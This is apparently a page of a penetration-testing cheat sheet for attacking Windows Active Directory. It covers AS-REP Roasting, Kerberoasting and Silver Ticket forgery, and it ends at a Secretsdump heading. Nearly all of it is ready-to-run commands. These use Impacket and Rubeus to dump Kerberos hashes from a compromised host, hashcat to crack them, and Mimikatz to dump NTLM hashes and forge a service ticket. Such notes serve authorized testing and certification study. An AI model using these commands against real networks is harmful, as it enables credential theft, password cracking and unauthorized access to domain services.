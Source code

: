 ### AS-REP Roasting

```powershell
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request #this gives us the hash of AS-REP Roastable accounts, from kali linux
.\Rubeus.exe asreproast /nowrap #dumping from compromised windows host

hashcat -m 18200 hashes.txt wordlist.txt --force # cracking hashes
```

### Kerberoasting

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from compromised windows host, and saving with customname

impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request #from kali machine

hashcat -m 13100 hashes.txt wordlist.txt --force # cracking hashes
```

### Silver Tickets

- Obtaining hash of an SPN user using **Mimikatz**

```powershell
privilege::debug
sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here
```

- Obtaining Domain SID

```powershell
ps> whoami /user
# this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain   SID is "S-1-5-21-1987370270-658905905-1781884369"
```

- Forging silver ticket Ft **Mimikatz**

```powershell
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user>
exit

# we can check the tickets by,
ps> klist
```

- Accessing service

```powershell
ps> iwr -UseDefaultCredentials <servicename>://<computername>
```

### Secretsdump
